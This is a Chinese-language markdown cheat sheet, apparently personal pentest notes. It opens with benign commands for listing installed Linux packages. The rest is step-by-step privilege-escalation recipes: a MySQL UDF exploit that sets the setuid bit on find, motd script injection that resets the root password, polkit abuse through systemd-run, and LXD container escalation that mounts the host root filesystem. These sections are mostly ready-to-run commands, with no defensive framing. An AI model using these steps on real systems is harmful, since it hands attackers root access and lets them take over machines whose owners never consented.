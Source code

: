 # 查看 Linux 安装应用列表
## 使用 apt 查看
使用 apt 查看以安装的应用，会包括其依赖包，数据繁杂
`apt list --installed`    会显示所有安装的包
`apt list --installed | grep "program_name" `  查看固定某个应用的包
## 使用 dpkg 查看
apt 和 apt-get 底层都是由 dpkg 组成，可以使用 dpkg 枚举应用
`dpkg-query -l`   列出所有安装的应用
## 查看最近安装的软件 
使用 dpkg 安装历史
`grep " install " /var/log/dpkg.log`
使用 apt 安装历史
`grep " install " /var/log/apt/history.log`




# Linux MySQL 提权

## 使用 mysql 中的配置不当提权
**提权步骤**
是否可以自定义导出路径，secure_file_priv 为空
`show variables like '%secure%';`
查看当前数据库用户权限
`select * from mysql.user where user = substring_index(user(),'@',1)\G;`
查看 mysql 安装位置
`show variables like '%basedir%';`
搜索 UDF 动态库漏洞利用程序，并在漏洞利用数据库中将其命名为“1518. C”，exploit-1518
将 c 文件编译好
`gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.c -lc `
创建一个表
`create table foo(line blob);`
写入 udf 文件内容
`insert into foo values(load_file('/tmp/1518.so'));`
将 udf 文件内容导入
`select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';`
创建自定义函数 udf
`create function do_system returns integer soname '1518.so';`
给 find 赋予超级权限
`select do_system('chmod u+s /usr/bin/find'); `
使用 find 命令提权



# Linux motd 提权
## motd （message of the day）注入提权
**提权步骤**
登录 ssh 时会有一些欢迎信息，如果这些信息以 root 运行，并且用户对于这个文件可读可写时，可以提权 ^f1bff2
1）拿到普通用户 shell 时，可以使用以下 bash 命令，获取属主为 root，并且普通用户可以执行，可以写入的文件
`find / -type f -user root -perm -ug=x,0=w -exec ls -l '{}' \;2>/dev/null`
2）发现 update-motd. D/00-header 文件，进行写入，将 root 密码改为 root123
`echo 'root123' | chpasswd`



# Linux polcy kit 提权
## polcy kit 配置不当提权
**提权步骤**
1）首先确认含有 s 位的可执行文件，发现 polkit-agent-helper-1 含有 s 位
2）使用能够触发 helper 的执行文件，如 systemd-run
3）利用 systemd 唤起一个 bash，由于 helper 存在 s 位，则是以 root 用户唤起一个 bash，完成提取
`systemd-run -t /bin/bash`



# Linux LXD提权
## LXD容器提权
**提权原理**
当用户属于lxc组，可以使用lxd容器，可以提权。该方法利用lxd高权限下，可以挂载root目录，或者整个物理机目录，从而实现读取到sudoers或者passwd，authorized_keys等高权限才能读取的文件，从而提权。
**提权步骤**
1）首先创建lxd的镜像，一般从gethub中下载（下载后会有一个文件夹）
`git clone  https://github.com/saghul/lxd-alpine-builder.git`
`cd lxd-alpine-builder`
`./build-alpine`   创建一个lxd镜像，一般为.tar.gz文件
2）导入镜像
`lxc image import ./apline.tar.gz --alias myimage`    导入镜像名称为myimage
`lxc image list`   查看刚刚导入的镜像
3）启动镜像，挂载目录
`lxc init myimage ignite -c security.privileged=true`     初始化镜像
`lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true`   将物理机根目录挂载到虚拟机/mnt/root目录中
`lxc start ignite`    启动镜像
`lxc exec ignite /bin/sh`    以bash进入lxd
最后可以读取到物理机所有文件

